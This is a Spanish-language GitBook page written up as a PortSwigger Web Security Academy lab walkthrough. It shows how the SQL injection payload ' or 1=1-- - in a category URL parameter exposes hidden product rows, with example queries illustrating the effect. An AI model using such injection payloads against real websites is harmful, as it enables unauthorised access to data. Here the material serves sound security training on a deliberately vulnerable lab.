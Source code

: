 ```yaml
---
icon: syringe
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# SQL Injection

## <mark style="color:purple;">SQL Injection</mark>

URL = https://portswigger.net/web-security/all-labs

### Lab: SQL Injection vulnerability in WHERE clause allowing retrieval of hidden data

Si le damos a una de las etiquetas del filtro vemos que en la URL hace una comparacion, por lo que si hacemos lo siguiente filtrariamos todo lo que hay en la base de datos que es el proposito...

```
URL = https://0aac001703bff4ba80fdd598003e00c1.web-security-academy.net/filter?category=Lifestyle' or 1=1-- -
```

Lo que hemos añadido es lo siguiente...

```mysql
' or 1=1-- -
```

Que quedaria visto desde la terminal de `mysql` de la siguiente manera...

```mysql
select * from products where 'lifestyle' and released = 1;
```

```mysql
select * from products where 'input' or 1=1-- -' and released = 1;
```

<figure><img src="../.gitbook/assets/sql1.png" alt=""><figcaption></figcaption></figure>
